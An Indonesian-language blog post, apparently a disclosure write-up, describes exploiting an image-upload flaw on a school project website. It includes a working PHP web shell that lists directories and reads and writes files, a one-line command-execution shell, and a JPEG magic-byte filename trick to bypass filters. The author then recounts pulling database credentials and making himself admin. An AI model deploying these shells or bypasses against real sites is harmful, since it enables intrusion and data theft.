```yaml
---
title: "Database Control + Server Configuration Leaked via Arbitrary File Upload"
date: "2025-06-29"
description: "PoC of Vulnerability in asessment24.site"
categories: [
    "Blog"
]
tags : [
    "Proof of Concept"
]
image: database.png
---
```

#####
> Kerentanan ini sudah dilaporkan dan sudah difix

Singkat cerita, saya diberi tau oleh seseorang terkait sebuah website khusus jurusan `RPL`, di website ini diberikan fitur seperti Register, Login, File Upload dll (Kelas saya tidak diberitahu karna memang kelas saya tidak diajar oleh Pak `Rian`, dan sepertinya web ini khusus untuk mengumpulkan project-project yang diajar oleh Pak `Rian`)

Dan begini tampilan website nya (setelah login),

![](gambar.png)

Keren nya disini, ada fitur untuk profile, dan tentu bisa diupdate, disini kita bisa upload image untuk diset sebagai profile gambar kita,

![](profile.png)

Dan ya, disini lah juga kerentanannya berada, yaitu pada fitur `Upload Image` pada Profile. Btw, kerentanan pada fitur `Upload Image` ini akan tidak berguna jika kita tidak dapat endpoint access terhadap gambar yang telah kita kita upload, dan di website ini, seluruh gambar siswa disimpan di direktori `/assets`, yang artinya kita dapat access endpoint terhadap file yang telah kita upload.

Yang pertama, disini saat kita memilih file untuk kita dapat upload, memang disuruh untuk menginputkan file yang berekstensi gambar (`png, jpg, dll`) tapi disini alih alih kita menginputkan ekstensi file tersebut, kita dapat menginputkan file dengan ekstensi lain, seperti `txt`, dan... `php`

<video controls width="100%">
  <source src="/videos/yesking.mp4" type="video/mp4">
  Browser lo gak support video tag.
</video>


Nah, catatan nya disini, kalo yg kita upload itu adalah ekstensi file code, maka saat kita mencoba akses lewat `/assets` tidak bisa karna otomatis langsung ke download, untuk bypass ini, kita bisa bikin seolah olah gambar kita adalah gambar jpeg (gambar jpeg ketika diakses dapat mengeluarkan output raw dari file nya)

script PHP untuk LFI:
```php
<?php
if (isset($_GET['ls'])) {
    echo "<pre>";
    $path = $_GET['ls'] ?: '.';
    foreach (scandir($path) as $file) {
        echo $file . "\n";
    }
    echo "</pre>";
    exit;
}

if (isset($_GET['read'])) {
    echo "<pre>";
    echo htmlspecialchars(file_get_contents($_GET['read']));
    echo "</pre>";
    exit;
}

if (isset($_GET['write']) && isset($_POST['data'])) {
    file_put_contents($_GET['write'], $_POST['data']);
    echo "File written.";
    exit;
}
?>
```
`"Kenapa LFI? kok ga langsung RCE aja?"`

Sebelumnya udah nyoba untuk pake script RCE,
```php
<?php system($_GET["cmd"]); ?>
```
tapi gagal yang karna diblacklist oleh `Firewall` bawaan dari server, biasanya, untuk `exec`, `shell_exec`, dan `system()` diblacklist, dan ini berlaku juga untuk server hosting yang gratisan maupun berbayar

Nah, disini, untuk bypassing nya agar script PHP nya tetap bisa berjalan, kita bisa menambahkan `Magic Byte` dan `Header Byte` dari file format `JPG`

![](xxd.png)

dan juga saat rename file script shell nya menjadi `shell.php.jpg`

![](fileformat.png)

dan setelah diupload, tinggal access aja ke endpoint `/assets`

![](passwd.png)

Dan itu untuk yang LFI, sekarang yang `Database`, karna kita udh punya LFI nya, sekarang kita tinggal nyari file `config.php` atau `koneksi.php`, dan karna ini LFI, disini perlu usaha ekstra untuk mencari file nya di tiap tiap direktori

![](db.png)

disini saya tinggal copy config nya dan tambahkan beberapa fungsi untuk menampilkan data nya berdasarkan query input,

![](dbtable.png)

dan disini saya punya hak akses tinggi, bisa create, read, update, dan `delete`.

Dan segitu saja Proof of Concept dari Vulnerability yang telah saya temukan, semoga bisa membantu (btw saya gak ngelakuin hal illegal selain update role saya sendiri jadi `admin` :v)



